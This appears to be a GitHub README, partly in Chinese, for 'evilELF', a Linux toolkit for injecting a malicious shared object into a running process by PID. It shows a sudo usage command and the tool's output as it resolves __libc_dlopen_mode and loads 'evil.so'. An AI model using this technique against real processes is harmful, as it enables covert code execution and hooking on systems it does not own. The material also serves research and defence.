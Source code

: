 # evilELF
Malicious use of ELF such as .so inject, func hook and so on.

## [InejctRuntimeELF](https://github.com/jmpews/evilELF/tree/master/InjectRuntimeELF)

具体参考 [linux进程动态so注入](https://github.com/jmpews/dev2pwn/blob/master/linux%E8%BF%9B%E7%A8%8B%E5%8A%A8%E6%80%81so%E6%B3%A8%E5%85%A5.md)
实现恶意 `so` 注入, 采用直接解析 `ELF` 文件的方式, 更加具有通用性, 并以 `.gnu.hash` 进行符号查找, 适用于目前的 `ELF` 结构.

代码规范, 参考 `glibc-2.19`, 用 `ElfW` 宏进行 `32` 和 `64` 字长兼容.

#### Demo & Usage

```
#### usage

```
➜  InjectRuntimeELF git:(master) ✗ sudo ./inject 3631 /evilELF/InjectRuntimeELF/example/evil.so
--------------------------------------------------------------
InjectRuntimeELF - (1.0.0) - by jmpews@gmail.com
--------------------------------------------------------------
[*] attached to pid 3631.
[*] dump runtime infomation
[*] dumping header...
[*] start symbol search '__libc_dlopen_mode'...
[*] start search libaray: /lib/i386-linux-gnu/libc.so.6
[*] start bucket search...
[*] found '__libc_dlopen_mode' at 0xb7693ae0
[+] entry point: 0x8048380
[+] stopped 3631 at eip:0xb7729428, esp:0xbf93cffc
[+] inject code done 3631 at eip:0x8048396
[*] start symbol search 'evilfunc'...
[*] start search libaray: /lib/i386-linux-gnu/libc.so.6
[*] start search libaray: /lib/ld-linux.so.2
[*] search in ld, no link_map.
[*] start search libaray: /evilELF/InjectRuntimeELF/example/evil.so
[*] start bucket search...
[*] found 'evilfunc' at 0xb772353b
[*] lib injection done!
```
```
